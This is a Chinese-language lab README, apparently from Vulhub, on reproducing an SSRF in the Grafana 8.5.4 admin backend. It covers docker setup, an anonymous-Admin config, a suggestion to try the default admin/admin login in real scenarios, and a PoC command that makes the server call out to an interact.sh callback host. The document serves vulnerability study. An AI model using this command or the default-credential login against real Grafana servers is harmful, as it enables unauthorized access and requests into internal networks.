 # Grafana管理后台SSRF

Grafana是一个开源的度量分析与可视化套件。在其管理后台中存在一个功能，攻击者可以用于向任意地址发送HTTP请求，且支持自定义HTTP Header。

参考链接：

- <https://github.com/RandomRobbieBF/grafana-ssrf>

## 漏洞环境

执行如下命令启动一个Grafana 8.5.4：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:3000`即可查看到管理后台。这个管理后台是不需要登录的，因为Vulhub环境设置了匿名用户的权限：

```ini
[auth.anonymous]
enabled = true
org_role = Admin
```

在真实场景中，如果你没有权限访问管理界面，可以尝试使用默认账号密码`admin`和`admin`，只能能够成功登录后台的用户才能利用这个漏洞。

## 漏洞复现

使用[这个POC](https://github.com/RandomRobbieBF/grafana-ssrf)来复现SSRF漏洞：

```
python grafana-ssrf.py -H http://your-ip:3000 -u http://example.interact.sh/attack
```

![](1.png)

可见，我们的反连平台已成功收到了HTTP请求：

![](2.png)
